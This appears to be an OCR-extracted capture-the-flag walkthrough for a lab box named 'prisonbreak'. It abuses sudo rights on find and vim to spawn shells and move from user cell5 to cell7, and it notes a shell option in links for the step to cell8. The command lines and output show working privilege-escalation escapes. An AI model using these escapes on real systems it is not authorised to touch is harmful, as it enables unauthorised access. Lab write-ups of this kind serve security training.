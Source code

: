 sudo -l 
Matching Defaults entries for cell5 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell5 may run the following commands on prisonbreak:
    (cell6) NOPASSWD: /usr/bin/find



### Privilige escelation */usr/bin/find*

```
$ cd /tmp
$ sudo -u cell6 /usr/bin/find . -exec /bin/sh \; -quit


$ id
uid=1006(cell6) gid=1005(cell6) groups=1005(cell6)
$ 
```

$ sudo -l 
Matching Defaults entries for cell6 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell6 may run the following commands on prisonbreak:
    (cell7) NOPASSWD: /usr/bin/vim
$ 

### Privilige escelation */usr/bin/vim*

```
sudo -u cell7 /usr/bin/vim -c ':!/bin/sh' /dev/null

$ id
uid=1007(cell7) gid=1006(cell7) groups=1006(cell7)
$ 
```

sudo -l 
Matching Defaults entries for cell7 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell7 may run the following commands on prisonbreak:
    (cell8) NOPASSWD: /usr/bin/links


### Privilige escelation */usr/bin/links*

some reading about links and i saw that under menu i have option to os.shell 

[!](assets/img/portfolio/cell8.png)

